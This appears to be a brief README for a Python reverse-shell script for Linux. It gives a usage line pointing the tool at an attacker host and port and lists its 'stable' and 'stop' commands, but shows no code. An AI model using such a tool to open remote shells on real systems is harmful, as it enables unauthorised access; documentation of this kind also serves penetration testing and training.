 #####Linux Simple

Simple shell, usage:

*python3 simple_linux_rev_shell.py --host <attacker host> --port <attacker port>*

You can also comment args parser and input ip:port in the code.

**Commands:**
- **stable:** try to establish connection (You can not use Ctrl+C, TABs and etc)
- **stop:** break the connection
- Linux standard commands
